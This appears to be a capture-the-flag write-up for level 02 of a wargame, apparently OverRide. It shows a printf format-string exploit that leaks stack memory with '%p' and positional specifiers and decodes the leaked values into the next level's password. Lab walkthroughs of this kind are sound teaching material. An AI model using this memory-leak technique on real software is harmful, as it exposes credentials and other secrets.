 # Level 02
*password : PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv*

## Analyze

```
scp -P 4242 level02@192.168.56.109:level02 binary/
```

## printf exploit

**objective** : use printf to print the pass

size of the pass : 40\
40 / 8 = 5\
We are looking for 5 64bits addresses followed by a null address
```
$ python -c 'print "%p " * 50' > /tmp/level02 ; cat /tmp/level02 | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x207025 (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
so offset = 22
```
level02@OverRide:~$ python -c 'print " %22$p %23$p %24$p %25$p %26$p"' > /tmp/level02 ; cat /tmp/level02 | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

0x756e505234376848 => 4868373452506e75 = Hh74RPnu\
0x45414a3561733951 => 51397361354a4145 = Q9sa5JAE\
0x377a7143574e6758 => 58674e5743717a37 = XgNWCqz7\
0x354a35686e475873 => 7358476e68354a35 = sXGnh5J5\
0x48336750664b394d => 4d394b6650673348 = M9KfPg3H

password: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
